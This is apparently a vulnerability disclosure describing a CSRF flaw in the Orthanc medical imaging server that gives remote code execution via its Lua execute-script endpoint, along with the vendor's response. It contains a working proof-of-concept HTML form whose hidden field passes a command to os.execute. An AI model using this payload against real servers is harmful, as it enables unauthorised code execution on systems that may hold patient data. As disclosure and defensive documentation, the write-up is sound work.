

# CSRF with remote code execution in ORTHANC server

ORTHANC has official online [demo](https://demo.orthanc-server.com/app/explorer.html)

## Introduction
Insecure ORTHANC api provides the following methods:


One of them (`execute-script`) executes Lua commands on the server:


## CSRF

ORTHANC server provides authentication mechanisms. It doesn’t implement any CSRF attack prevention methods. It allows a remote attackers to execute the API endpoints via CSRF attack.

### STEPS TO REPRODUCE
1. Log in to the web application using a web browser.
2. Create an html page containing the following code:
```
<html>
  <body>
    <form action="http://localhost:8042/tools/execute-script" method="POST" enctype="text/plain">
      <input type="hidden" name="cmd" value="'mkdir /tmp/testCSRF';os.execute(cmd)"/>
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

3. Open this html page in the web browser. 
4. The action (mkdir /tmp/testCSRF) will be executed. You can verify that by checking the existence of /tmp/testCSRF directory on the server.

## Conclusion

The vendor was [informed](./data/Advisory_ORTHANC_CSRF.pdf), and we received the answer:

about insecure API endpoints:
```
Since Orthanc 1.5.7, a modification has been made to the Orthanc source code in order to disallow the URI "/tools/execute-script" by default, and the user will have to explicitly set the configuration option "ExecuteLuaEnabled" to "true" if she wishes to access this URI:
https://bitbucket.org/sjodogne/orthanc/commits/f07352e0375ca3fcd1b4ff974be6d7cc8f82f92c

This feature will be part of to-be-release Orthanc 1.5.8.
```

about CSRF attack prevention:
```
As now written in the Orthanc FAQ, "In particular, you must create a higher-level application so as to properly deal with CSRF attacks: Indeed, as explained in the introduction, Orthanc is a microservice that is designed to be used within a secured environment."

https://book.orthanc-server.com/faq/security.html
```